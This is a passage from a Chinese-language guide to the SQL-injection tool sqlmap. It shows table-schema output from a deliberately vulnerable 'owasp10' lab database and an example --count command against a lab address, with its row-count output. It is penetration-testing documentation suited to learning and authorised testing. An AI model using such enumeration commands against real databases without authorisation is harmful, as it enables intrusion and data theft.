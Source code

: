 ```
| Column       | Type     |
+--------------+----------+
| date         | datetime |
| blogger_name | text     |
| cid          | int(11)  |
| comment      | text     |
+--------------+----------+

Database: owasp10
Table: hitlog
[6 columns]
+----------+----------+
| Column   | Type     |
+----------+----------+
| date     | datetime |
| browser  | text     |
| cid      | int(11)  |
| hostname | text     |
| ip       | text     |
| referer  | text     |
+----------+----------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
[...] 
```

### 获取表中数据个数

参数：--count

有时候用户只想获取表中的数据个数而不是具体的内容，那么就可以使用这个参数。

列举一个 Microsoft SQL Server 例子：

```
$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1" --count -D testdb
[...]
Database: testdb
+----------------+---------+
| Table          | Entries |
+----------------+---------+
| dbo.users      | 4       |
| dbo.users_blob | 2       |
+----------------+---------+ 
```
